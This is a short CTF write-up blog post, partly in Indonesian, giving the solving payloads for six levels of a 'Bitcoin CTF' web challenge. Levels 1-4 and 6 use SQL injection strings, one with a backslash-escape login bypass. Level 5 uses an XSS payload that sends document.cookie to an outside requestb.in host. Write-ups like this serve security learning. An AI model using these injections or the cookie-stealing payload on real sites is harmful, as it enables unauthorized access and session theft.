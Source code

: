 ```yaml
---
private: 'false'
modified: 2017-03-23
date: 2017-03-20
layout: post
featured: false
published: true
comments: true
title: Writeup BitcointCTF
tags: sqlinjection
mathjax: false
imagefeature: /images/sqlinjection.jpg
description: Writeup BitcointCTF Challenge
category: Web Exploitation
chart: null
---
```



## Bitcoin CTF ($)

FIRST LEVEL: http://188.166.248.215/ 

prize: 1BtCctfV3MFXQ9zfLq8BkK53cpGdmkA2WL 

what: capture the flag \(CTF\) 

when: 1490349600 irc: \#bitcoinctf on freenode questions: @bitcoinctf or &lt;bitcoinctf \[at\] gmail.com&gt;



### Level 1

Soal : [http://188.166.248.215/](http://188.166.248.215/)

Injection : `1 or (1=1)#`

![](/images/level1-bitcoinctf.png)

### Level 2

Soal : [http://188.166.248.215/ce4dd79d-971b-40d3-a4e6-2041da6bcc64/](http://188.166.248.215/ce4dd79d-971b-40d3-a4e6-2041da6bcc64/)

Injection : `12' or '1'='1`

![](/images/level2-bitcoinctf.png)

### Level 3

Soal : [http://188.166.248.215/85998adb-2109-45d2-aec9-6e9d995e6d47/](http://188.166.248.215/85998adb-2109-45d2-aec9-6e9d995e6d47/)

Injection : `a' or 1=1#`

![](/images/level3-bitcoinctf.png)

### Level 4

Soal : [http://188.166.248.215/f3af878d-d7cd-47c0-b98e-074cf82d30d6/](http://188.166.248.215/f3af878d-d7cd-47c0-b98e-074cf82d30d6/)

Injection : `0 -- ' or '1'='1' -- " or "1"="1`

![](/images/level4-bitcoinctf.png)

### Level 5

Soal : [http://139.59.127.138/8eb7a8a1-2e0d-4ff7-a91b-8686ff229c28/](http://139.59.127.138/8eb7a8a1-2e0d-4ff7-a91b-8686ff229c28/)

Injection : `<img src=x onerror=this.src='http://requestb.in/191nnlq1?c='+document.cookie>`

![](/images/level5-bitcoinctf.png)

![](/images/level5-bitcoinctf-2.png)



### Level 6

Soal : [http://139.59.127.139/dbd41354-9645-4e87-bbb8-27f5db622a67/](http://139.59.127.139/dbd41354-9645-4e87-bbb8-27f5db622a67/)

  
setelah beberapa kali melakukan injeksi basic seperti `' OR 1=1#` pada kolom username dan password nampaknya tidak berjalan kemudian saya menebak query di backendnya seperti ini : `SELECT * from users where username='$user' and pasword = '$pass'`  


ketika kita coba kirim payload : `aaa\ & password= xxx `

query sebenarnya :` SELECT * from users where username='aaa\' and pasword = ' xxx'`



ketika kita coba kirim payload : `username = aaa\ & password= OR 1=1#`

query sebenarnya : `SELECT * from users where username='aaa\' and pasword = ' OR 1=1#'`

![](/images/level6-bitcoinctf.png)






